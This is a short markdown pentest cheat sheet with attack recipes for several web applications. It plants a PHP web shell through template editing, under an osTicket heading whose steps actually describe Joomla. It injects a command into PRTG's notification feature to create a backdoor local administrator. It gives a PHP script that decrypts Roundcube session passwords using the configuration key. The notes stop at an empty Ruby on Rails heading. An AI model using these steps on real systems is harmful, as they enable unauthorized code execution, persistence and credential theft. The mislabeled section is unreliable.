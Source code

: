 ### osTicket

#### Exploit

- RCE (after logging in /administrator)
  1. If `An error has occurred. Call to a member function  format() on null` go to  `/administrator/index.php?option=com_plugins` and disable the "Quick Icon - PHP Version Check" plugin. 
  2. click on `Templates` on the bottom left under `Configuration` 
  3. click on a template &rarr; choose `protostar` under the `Template` column
  4. click on a page to pull up the page source
  5. Add a php web shell `system($_GET['c']);`

### Enumeration

- cookie named `OSTSESSID`
- The footer may contain the words `Support Ticket System`.

### PRTG Monitor

##### Admin Shell

- Click on Setup &rarr; Account Settings &rarr; Notifications &rarr; Add new notification

- Set Name → Tick `EXECUTE PROGRAM` 

- Under `Program File` select `Demo exe notification  - outfile.ps1`

- Enter a command in the Parameter CMD field, `test.txt;[CMD]`e.g. add a new local admin:

  ```powershell
  test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
  ```

- Save → Click `Test` to Run Notification

### Python editor

https://hacktricks.boitatech.com.br/misc/basic-python/bypass-python-sandboxes

### Roundcube

1. Check `/var/www/html/roundcube/config/config.inc.php` to see where sessions are stored and get the session encryption key `$config['des_key'] = 'rcmail-!24ByteDESkey*Str';`
2. Sessions could be in `/var/lib/roundcube/sessions/` or in a database
3. Decode from base64
4. Decrypt using the encryption key
```php
<?php
$encrypted = "[PWD]";
$key = "[KEY]"; // From config.inc.php

// Decode Base64 and decrypt
$decoded = base64_decode($encrypted);
$iv = substr($decoded, 0, 8); // First 8 bytes = IV
$ciphertext = substr($decoded, 8);
$decrypted = openssl_decrypt(
    $ciphertext,
    'des-ede3-cbc',
    $key,
    OPENSSL_RAW_DATA,
    $iv
);

echo "Decrypted password: " . $decrypted . "\n";
?>
```
### Ruby on Rails